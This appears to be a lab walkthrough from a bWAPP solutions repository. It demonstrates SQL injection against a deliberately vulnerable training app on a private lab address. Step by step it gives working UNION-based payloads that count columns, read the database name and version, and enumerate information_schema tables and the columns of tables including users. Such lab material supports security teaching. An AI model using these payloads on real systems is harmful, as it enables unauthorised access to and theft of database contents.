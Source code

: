 # bWAPP-Solutions
bWAPP - SQL Injection

We added `'` character to the id in the url to see what kind of output we will get.

`172.16.112.128/bWAPP/sqli_2.php?movie=1'&action=go`

The output depends on the script's quality. If script filters input then no SQL error would be returned. Page will load normally or give a warning like “Attack Spotted, Your IP Address has been recorded” or something similar.  However we have got error like this: 

`Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1`

Now we know that there is no any filter. Since we got an error, we are sure that this is SQL injectable and we can try to get some hidden data information from database.
 
##### SQL Injection (Select/GET)

###### Find Column Number of the SQL statement

There are two ways to find number of columns.

1.Using Order by

Order by  statement tell the database how to order the result. For example, the command below will order all the result by ascending order. Also we can change asc to desc.

Select name,age from user Where id=1 Order by user asc

It doesn't matter if column integer or string. Server will automatically order it by checking column type. Order by also can have number instead of column in select statement.  Using this method we can check how many column numbers in table.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 order by 1-- &action=go` and we didn't get error until we enter column number 8.That means we have 7 column in our  movies table.

We put `--` comment character to end of SQL command to get rid of leftover strays. 

2. Using Union

Using union select or union all select statements we can see which columns are outputted to the site. Then we can use to retrieve and output our data. Using union all select can prevent type mismatch and get around queries that use the keyword DISTINCT. Note that, we can also get number of columns by adding numbers to the union statement until page will be displayed normally.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,2,3,4,5,6,7--&action=go`

with “and 1=0” because only want to get data from union all statement. If we just wrote union statement without “and 1=0” then first select would overwrite second one.

Now we know that we can retrieve stolen data using 2,3,5,4 columns and we'll get database name and version using these columns.

###### Find Name of the Current Database

Adding database() to second column we can retrieve database name in the title section.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,database(),3,4,5,6,7--&action=go`

###### Find Version of the Database

Adding version() or @@version to second column we can retrieve database version in the title section.

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,version(),3,4,5,6,7--&action=go`

or 

`http://172.16.112.128/bWAPP/sqli_2.php?movie=1 and 1=0 union all select 1,version(),@@version,4,5,6,7--&action=go` 

##### SQL Injection (Search/POST)

###### List Table Names and Number of Records in Each Table of the Database.

All the table names and column names holds in Information_Schema database. To get tables, we would use information_schema like this:

Select table_name from information_schema.tables 

Using this query we can get all of the table names from database. Also column names by changing tables to columns. This only avaliable in version 5 and up. We find out version of the database adding version() to union statement. 

If we type “ma” to the search field we can see that query is something like “Select name From table Where name like '%ma%'. Server looking for value in the table containing “ma” pattern and can have text before and after it.  It could be amazing, Spider-Man or just Man.  We also can know what kind of input program expects from sqli_6.php

Using this SQL query we can get all of table schema and names from information_schema.tables.

`' and 1 = 0 union all select 1,table_schema,table_name,4,5,6,7 from information_schema.tables where 1=0 or 1=1-- '`

There were a lot of database name and table names. The reason is that we added 1=1 to end of query and that means bring all of the database and table names to us. There are more elegant ways to get table names of the database. For example,

`' and 1=0 union all select 1,table_schema,table_name,4,table_rows,6,7 from information_schema.tables where table_schema = 'bwapp'-- '`

table_schema was written to title which corresponds column 2, table_name was written to release which corresponds to column 3 and table_rows (records) was written to character which corresponds to column 5.

###### List Column Names of Each Table

We can retrieve column names by writing column names to information_schema instead of table names.  For example, 

Select column_name from information_schema.columns

Let's enter each table name to query to get columns names of table.

1. Blog Table

`'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'blog' and table_schema = 'bwapp'-- '`

2. Heroes Table

`'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'heroes' and table_schema = 'bwapp'-- '`

3. Movies Table

`'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'movies' and table_schema = 'bwapp'-- '`

4. Users Table

`'and 1=0 union all select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'users' and table_schema = 'bwapp'-- '`







